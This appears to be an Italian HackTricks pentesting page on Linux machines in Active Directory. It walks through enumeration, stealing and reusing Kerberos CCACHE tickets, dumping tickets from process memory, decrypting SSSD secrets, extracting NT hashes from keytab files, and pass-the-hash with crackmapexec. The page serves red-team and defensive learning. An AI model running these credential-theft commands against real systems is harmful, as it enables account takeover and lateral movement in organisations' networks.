 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Una macchina linux può essere presente anche all'interno di un ambiente Active Directory.

Una macchina linux in un AD potrebbe **memorizzare diversi ticket CCACHE all'interno di file. Questi ticket possono essere utilizzati e abusati come qualsiasi altro ticket kerberos**. Per leggere questi ticket è necessario essere l'utente proprietario del ticket o **root** all'interno della macchina.

## Enumerazione

### Enumerazione AD da linux

Se hai accesso a un AD in linux (o bash in Windows) puoi provare [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) per enumerare l'AD.

Puoi anche controllare la seguente pagina per apprendere **altri modi per enumerare l'AD da linux**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA è un **alternativa** open-source a Microsoft Windows **Active Directory**, principalmente per ambienti **Unix**. Combina un **directory LDAP** completo con un MIT **Kerberos** Key Distribution Center per una gestione simile a Active Directory. Utilizzando il Dogtag **Certificate System** per la gestione dei certificati CA e RA, supporta l'autenticazione **multi-fattore**, inclusi i smartcard. SSSD è integrato per i processi di autenticazione Unix. Scopri di più in:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Giocare con i ticket

### Pass The Ticket

In questa pagina troverai diversi luoghi dove potresti **trovare ticket kerberos all'interno di un host linux**, nella pagina seguente puoi apprendere come trasformare questi formati di ticket CCache in Kirbi (il formato che devi usare in Windows) e anche come eseguire un attacco PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### Riutilizzo del ticket CCACHE da /tmp

I file CCACHE sono formati binari per **memorizzare le credenziali Kerberos** e sono tipicamente memorizzati con permessi 600 in `/tmp`. Questi file possono essere identificati dal loro **formato di nome, `krb5cc_%{uid}`,** che corrisponde all'UID dell'utente. Per la verifica del ticket di autenticazione, la **variabile di ambiente `KRB5CCNAME`** deve essere impostata sul percorso del file ticket desiderato, consentendone il riutilizzo.

Elenca il ticket attualmente utilizzato per l'autenticazione con `env | grep KRB5CCNAME`. Il formato è portatile e il ticket può essere **riutilizzato impostando la variabile di ambiente** con `export KRB5CCNAME=/tmp/ticket.ccache`. Il formato del nome del ticket Kerberos è `krb5cc_%{uid}` dove uid è l'UID dell'utente.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### Riutilizzo del ticket CCACHE dalla keyring

**I ticket Kerberos memorizzati nella memoria di un processo possono essere estratti**, in particolare quando la protezione ptrace della macchina è disabilitata (`/proc/sys/kernel/yama/ptrace_scope`). Uno strumento utile per questo scopo si trova su [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), che facilita l'estrazione iniettando nelle sessioni e dumpando i ticket in `/tmp`.

Per configurare e utilizzare questo strumento, si seguono i passaggi seguenti:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Questa procedura tenterà di iniettare in varie sessioni, indicando il successo memorizzando i ticket estratti in `/tmp` con una convenzione di denominazione di `__krb_UID.ccache`.

### Riutilizzo del ticket CCACHE da SSSD KCM

SSSD mantiene una copia del database nel percorso `/var/lib/sss/secrets/secrets.ldb`. La chiave corrispondente è memorizzata come file nascosto nel percorso `/var/lib/sss/secrets/.secrets.mkey`. Per impostazione predefinita, la chiave è leggibile solo se si dispone di permessi **root**.

Invocando \*\*`SSSDKCMExtractor` \*\* con i parametri --database e --key si analizzerà il database e si **decrypteranno i segreti**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
Il **blob della cache delle credenziali Kerberos può essere convertito in un file Kerberos CCache utilizzabile** che può essere passato a Mimikatz/Rubeus.

### Riutilizzo del ticket CCACHE da keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Estrai account da /etc/krb5.keytab

Le chiavi degli account di servizio, essenziali per i servizi che operano con privilegi di root, sono archiviate in modo sicuro nei file **`/etc/krb5.keytab`**. Queste chiavi, simili a password per i servizi, richiedono una stretta riservatezza.

Per ispezionare il contenuto del file keytab, si può utilizzare **`klist`**. Lo strumento è progettato per visualizzare i dettagli delle chiavi, inclusa l'**NT Hash** per l'autenticazione degli utenti, in particolare quando il tipo di chiave è identificato come 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Per gli utenti Linux, **`KeyTabExtract`** offre funzionalità per estrarre l'hash RC4 HMAC, che può essere sfruttato per il riutilizzo dell'hash NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Su macOS, **`bifrost`** funge da strumento per l'analisi dei file keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Utilizzando le informazioni sull'account e sull'hash estratte, è possibile stabilire connessioni ai server utilizzando strumenti come **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Riferimenti

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
